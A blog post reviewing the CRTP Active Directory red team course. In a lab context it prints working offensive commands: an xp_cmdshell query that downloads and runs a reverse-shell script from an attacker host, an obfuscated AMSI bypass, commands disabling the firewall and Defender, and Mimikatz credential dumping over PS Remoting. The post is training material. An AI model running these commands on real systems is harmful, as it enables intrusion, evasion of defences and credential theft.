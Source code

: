 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. 

The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions. You have the option to use Kali at times but I chose to use the provided Windows VM the whole time for a change from the OSCP.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

### Enumeration

Throughout the enumeration section you have the choice to use the [ActiverDirectory Module](https://learn.microsoft.com/en-us/powershell/module/activedirectory/) or [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) but I chose the latter created by Will Schroeder aka @harmj0y which is an amazing tool. 

PowerView contains some useful features such as Invoke-UserHunter which can find computers where specified users or groups have a current session as well as Find-LocalAdminAccess whereby it searches the domain looking for machines that the current user has local admin access to.

The other tool that stands out is the one named [PowerUpSQl](https://github.com/NetSPI/PowerUpSQL) which scans the domain looking for SQL servers that may be accessible. The first command I would run would be this to provide general enumeration of the SQL Servers:

{% highlight powershell %}
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
{% endhighlight %}

I would then do a more specific search to see if the returned SQL servers from the above command link to any further SQL Servers which can be achieved by using SQLServerLinkCrawl:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
{% endhighlight %}

This would normally tell you if you are sysadmin on any of the SQL servers and if you are you could potentially enable xp_cmdshell and get a reverse shell on the SQL server itself with:

{% highlight powershell %}
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (iwr http://172.16.100.1:80/Invoke-PowerShellTcpEx.ps1 -UseBasicParsing)"'
{% endhighlight %}

### Privilege Escalation

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring to alow me to use my Priv Esc tools. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable AV & Open Firewall:**
{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}

For Priv Esc I used [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) and [Mimikatz](https://github.com/gentilkiwi/mimikatz) mainly when I had the privileges. The key to using these was to try and not touch disk too and to run them in memory to avoid AV.

### Lateral Movement

I think the highlight of the course is the use of PS Remoting to laterally move from machine to machine. Running commands like this becomes second nature after awhile and this wasn't a massive feature of the OSCP so was great to get the experience in using it:

{% highlight powershell %}
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
{% endhighlight %}

Also being able to create a PowerShell session, store it in a variable, then call Mimikatz locally and passing Mimikatz to the session was such a great technique to use:

{% highlight powershell %}
$sess = New-PSSession -Computername Server1
Invoke-Command -Session $sess -FilePath C:\AD\Tools\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
{% endhighlight %}

### Other Topics

The course also delves into lots of other tips and tricks such as Golden\Silver tickets, Kerberoasting, Unconstrained Delegation, Skeleton keys, ACL abuse etc etc but they would be too numerous to cover here. It is suffice to say that you come away from the course with a lot more knowledge of Active Directory than other courses provide.

### Exam





